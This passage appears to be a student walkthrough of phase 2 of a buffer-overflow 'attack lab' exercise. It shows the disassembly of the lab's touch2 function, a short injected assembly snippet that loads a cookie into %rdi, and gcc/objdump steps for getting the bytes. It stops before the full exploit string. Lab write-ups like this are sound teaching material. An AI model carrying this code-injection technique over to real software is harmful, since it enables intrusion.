 # PHASE 2

Phase 2 involves injecting a small code and calling function touch2 while making it look like you passed the cookie as an argument to touch2

If you look inside the ```rtarget_dump.s``` fil and search for touch2, it looks something like this:
```assembly
0000000000401945 <touch2>:
  401945:       48 83 ec 08             sub    $0x8,%rsp
  401949:       89 fa                   mov    %edi,%edx
  40194b:       c7 05 c7 3b 20 00 02    movl   $0x2,0x203bc7(%rip)        # 60551c <vlevel>
  401952:       00 00 00 
  401955:       39 3d c9 3b 20 00       cmp    %edi,0x203bc9(%rip)        # 605524 <cookie>
  40195b:       75 20                   jne    40197d <touch2+0x38>
  40195d:       be d0 34 40 00          mov    $0x4034d0,%esi
  401962:       bf 01 00 00 00          mov    $0x1,%edi
  401967:       b8 00 00 00 00          mov    $0x0,%eax
  40196c:       e8 8f f4 ff ff          callq  400e00 <__printf_chk@plt>
  401971:       bf 02 00 00 00          mov    $0x2,%edi
  401976:       e8 77 05 00 00          callq  401ef2 <validate>
  40197b:       eb 1e                   jmp    40199b <touch2+0x56>
  40197d:       be f8 34 40 00          mov    $0x4034f8,%esi
  401982:       bf 01 00 00 00          mov    $0x1,%edi
  401987:       b8 00 00 00 00          mov    $0x0,%eax
  40198c:       e8 6f f4 ff ff          callq  400e00 <__printf_chk@plt>
  401991:       bf 02 00 00 00          mov    $0x2,%edi
  401996:       e8 33 06 00 00          callq  401fce <fail>
  40199b:       bf 00 00 00 00          mov    $0x0,%edi
  4019a0:       e8 ab f4 ff ff          callq  400e50 <exit@plt>
  ```
If you read the instruction pdf, it says, "Recall that the first argument to a function is passed in register %rdi."

So our goal is to modify the %rdi register and store our cookie in there.

So you have to write some assembly code for that task, create a file called ```phase2.s``` and write the below code, replacing the cookie with yours from the previous phase.
```assembly
  movq $0x3451d86d,%rdi /* move your cookie to register %rdi */
  retq                  /* return */
```
Now you need the byte representation of the code you wrote above, compile it with gcc then dissasemble it.

```ssh
gcc -c phase2.s
objdump -d phase2.o  > phase2.d 
```
Now open the file phase2.d and you will get something like below
